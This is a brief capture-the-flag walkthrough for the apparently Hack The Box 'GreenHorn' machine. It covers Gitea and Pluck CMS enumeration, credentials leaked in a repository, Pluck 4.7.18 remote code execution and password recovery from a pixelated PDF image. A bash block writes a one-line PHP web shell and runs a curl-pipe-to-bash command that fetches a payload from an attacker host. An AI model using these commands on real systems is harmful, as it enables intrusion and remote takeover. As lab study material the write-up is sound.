

1. Nmap
2. Found por 22, 80, 3000
3. Found Powered by Gitea Version: 1.21.11 at port 3000

```
searchsploit gitea  
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                          |  Path
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gitea 1.12.5 - Remote Code Execution (Authenticated)                                                                                    | multiple/webapps/49571.py
Gitea 1.16.6 - Remote Code Execution (RCE) (Metasploit)                                                                                 | multiple/webapps/51009.rb
Gitea 1.4.0 - Remote Code Execution                                                                                                     | multiple/webapps/44996.py
Gitea 1.7.5 - Remote Code Execution                                                                                                     | multiple/webapps/49383.py
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```
dirsearch -u http://greenhorn.htb:3000/                     

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/dyallo/.dirsearch/reports/greenhorn.htb-3000/-_24-07-23_18-58-41.txt

Error Log: /home/dyallo/.dirsearch/logs/errors-24-07-23_18-58-41.log

Target: http://greenhorn.htb:3000/

[18:58:41] Starting: 
[18:58:53] 200 -    1KB - /.well-known/openid-configuration
[18:58:53] 200 -  340B  - /.well-known/security.txt
[18:59:08] 303 -   38B  - /admin  ->  /user/login
[18:59:09] 303 -   38B  - /admin/  ->  /user/login
[18:59:09] 303 -   38B  - /admin/?/login  ->  /user/login
[18:59:23] 200 -  706B  - /api/swagger
[18:59:41] 303 -   41B  - /explore  ->  /explore/repos
[18:59:42] 301 -   58B  - /favicon.ico  ->  /assets/img/favicon.png
[18:59:42] 200 -   16KB - /explore/repos
[18:59:48] 303 -   38B  - /issues  ->  /user/login
[19:00:17] 200 -  287B  - /sitemap.xml
[19:00:24] 200 -   11KB - /user/login/
[19:00:25] 401 -   50B  - /v2/
[19:00:25] 401 -   50B  - /v2
[19:00:25] 401 -   50B  - /v2/_catalog

Task Completed
```

Go into

http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php



Go into

http://greenhorn.htb/login.php and login with the credentials found

Found pluck 4.7.18

```
searchsploit pluck 4.7.18     
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                    |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Pluck v4.7.18 - Remote Code Execution (RCE)                                                                                                       | php/webapps/51592.py
pluck v4.7.18 - Stored Cross-Site Scripting (XSS)                                                                                                 | php/webapps/51420.txt
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
echo "<?=`$_REQUEST[0]`;" > rce.php

output=$(python3 exploit.py -u http://greenhorn.htb -p iloveyou1 -f rce.php)

url=$(echo $output | grep -oP '(?<=http://).*' | awk '{print "http://" $0}')

echo "URL: $url"

curl "$url" --data-urlencode '0=curl http://10.10.15.23:8080/index.html|bash'
```

Once inside, re use the password `iloveyou1` to login with junior user

Got the user.txt

Download the found pdf

```bash
pdfimages Using\ OpenVAS.pdf out

python3 Depix/depix.py \
-p out-000.ppm -s Depix/images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
```

password is sidefromsidetheothersidesidefromsidetheotherside

### Links

- https://github.com/opabravo/pluck-cms-rce
- https://github.com/spipm/Depix
- https://www.cyberciti.biz/faq/easily-extract-images-from-pdf-file/